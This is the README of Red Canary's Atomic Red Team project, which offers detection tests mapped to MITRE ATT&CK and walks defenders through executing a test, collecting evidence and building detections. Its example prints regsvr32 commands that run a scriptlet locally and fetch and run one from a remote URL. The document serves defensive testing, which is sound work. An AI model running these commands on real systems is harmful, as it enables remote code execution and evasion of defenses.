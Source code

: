 # Atomic Red Team
[![CircleCI](https://circleci.com/gh/redcanaryco/atomic-red-team.svg?style=svg)](https://circleci.com/gh/redcanaryco/atomic-red-team)

Small and highly portable detection tests mapped to the [Mitre ATT&CK Framework.](https://attack.mitre.org/wiki/Main_Page)

*NOTE: We have sweet stickers for people who contribute; if you’re interested send a message to gear@redcanary.com with your mailing address*

## Mitre ATT&CK Matrix

We broke the repository into three working matrices:

[Windows MITRE ATT&CK Matrix](Windows/README.md)

[Mac MITRE ATT&CK Matrix](Mac/README.md)

[Linux MITRE ATT&CK Matrix](Linux/README.md)

## How to use Atomic Red Team

Our Atomic Red Team tests are small, highly portable detection tests mapped to the MITRE ATT&CK Framework. Each test is designed to map back to a particular tactic. We hope that this gives defenders a highly actionable way to immediately start testing their defenses against a broad spectrum of attacks.

* Be sure to get permission and necessary approval before conducting tests. Unauthorized testing is a bad decision, and can potentially be a resume-generating event.

* Set up a test machine that would be similar to the build in your environment. Be sure you have your collection/EDR solution in place, and that the endpoint is checking in and active.

* Spend some time developing a test plan or scenario. This can take many forms. An example test plan could be to execute all the Discovery phase items at once in a batch file, or run each phase one by one, validating coverage as you go.

There are three phases to the testing framework:

![Phases](https://www.redcanary.com/wp-content/uploads/image2-5.png)

### Phase 1: Execute Test

This particular test is fairly easy to exercise, since the tool is default on all Windows workstations.

The details of this test case are [here](Windows/Execution/Regsvr32.md).

Two methods are provided to perform the Atomic Test:

#### Local

For a local simulation use the provided .sct file:

    regsvr32.exe /s /u /i:file.sct scrobj.dll

#### Remote

For a remote simulation you will need a remotely accessible server to grab/download this file, or use gist:

    regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/RegSvr32.sct scrobj.dll

### Phase 2: Collect Evidence

What does your security solution observe? You may see a file modification in the user’s profile. You may detect network connections made by regsvr32.exe to an external IP. There may be an entry in the proxy logs. You may observe the scrobj.dll loading on Windows. Or, you might not observe any behavior on the endpoint or network. This is why we test! To identify visibility gaps and determine where improvements need to be made.

![RC Timeline](https://www.redcanary.com/wp-content/uploads/image9-1.png)

![Cb example 1](https://www.redcanary.com/wp-content/uploads/image5-3.png)

![Cb Example 2](https://www.redcanary.com/wp-content/uploads/image7-2.png)

### Phase 3: Develop Detection

So you executed the test and none of your defenses fired – that’s why we test! Based on your observations and detection capabilities, it is time to use what you have to try to detect this event in your environment.

![Unwind Data](https://www.redcanary.com/wp-content/uploads/image8-1.png)

Once the detection is built, it is time to validate that the detection is working and that it is appropriately tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe, you are going to be digging out from a mountain of false positives. But if you write it too narrow and it only detects regsvr32.exe with the exact command line “/s /u /i” then all an attacker has to do is slightly modify the command line to evade your detection.

### Measure Progress

One of the goals is to try to measure your coverage/capabilities against the ATT&CK Matrix and to identify where you may have gaps. Roberto Rodriguez ([@cyb3rWar0g](https://twitter.com/Cyb3rWard0g)) provided [this spreadsheet](https://github.com/Cyb3rWard0g/ThreatHunter-Playbook/blob/master/metrics/HuntTeam_HeatMap.xlsx) and complementary [blog post](https://cyberwardog.blogspot.com/2017/07/how-hot-is-your-hunt-team.html) showcasing how to determine where you stand within your organization in relation the MITRE ATT&CK Matrix.

![HeatMap](https://www.redcanary.com/wp-content/uploads/image4-5.png)

![Measure](https://www.redcanary.com/wp-content/uploads/image6-2.png)




#### We did not create the MITRE ATT&CK Framework, we just think it is awesome and extensive.

#### ATT&CK and ATT&CK Matrix are trademarks of The MITRE Corporation
